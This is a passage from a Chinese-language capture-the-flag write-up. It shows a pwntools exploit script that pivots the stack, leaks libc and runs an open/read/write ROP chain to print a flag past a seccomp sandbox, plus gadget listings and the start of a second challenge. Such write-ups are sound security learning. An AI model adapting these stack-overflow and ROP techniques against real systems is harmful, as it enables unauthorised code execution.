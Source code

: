 ```
vuln=0x401279
 
payload1=b'a'*(0x200-0x8)+b'flag\x00\x00\x00\x00'+p64(bss_tar+0x100)+p64(pop_rdi)+p64(1)+p64(pop_rsi2)+p64(func_addr)+p64(0xdeadfeef)+p64(write_addr)+p64(0x4012a3)
p.sendlineafter('everywhere',payload1)
 
migr_pay=b'a'*0x8+p64(bss_tar)+p64(leave)
p.sendafter('voice :',migr_pay)
p.recv()
func_addr=u64(p.recv(6).ljust(8,b'\x00'))
base=func_addr-libc.symbols['read']
print(hex(base))
system_addr=base+libc.symbols['system']
printf_addr=base+libc.symbols['printf']
sh=base+next(libc.search(b'/bin/sh'))
open64_addr=base+libc.symbols['open64']
 
pop_rdx=0x142c92+base
pop_rsi=0x2601f+base
pause()
payload2=p64(bss_st+0x100)+p64(pop_rdi)+p64(flag_name)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(open64_addr)+p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx)+p64(0x30)+p64(read_addr)
payload2+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx)+p64(0x30)+p64(write_addr)+p64(vuln)
p.sendline(payload2)
 
migr_pay=b'a'*0x8+p64(bss_st)+p64(leave)
p.sendafter('voice :',migr_pay)
 
p.interactive()
 
# 0x000000000040136c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040136e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401370 : pop r14 ; pop r15 ; ret
# 0x0000000000401372 : pop r15 ; ret
# 0x000000000040136b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040136f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x00000000004011bd : pop rbp ; ret
# 0x0000000000401373 : pop rdi ; ret
# 0x0000000000401371 : pop rsi ; pop r15 ; ret
# 0x000000000040136d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
# 0x000000000040121a : ret 0xfffe
 
# in libc
# 0x0000000000142c92 : pop rdx ; ret
# 0x000000000002601f : pop rsi ; ret
```
### call me sys
syscall，但是只能用几个函数
又是沙箱：
![](https://zcoi.github.io/blogs/CTF/monthgame2310/2dis1.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/2seccomp.png)
还是栈溢出漏洞：
![](https://zcoi.github.io/blogs/CTF/monthgame2310/2dis2.png)
由于没有关掉open,write,read函数，所以这题思路和上题一样。（题目说有三种方法，日后钻研）
```
from pwn import*
 
context(arch='amd64',os='linux')
context.log_level='debug'
```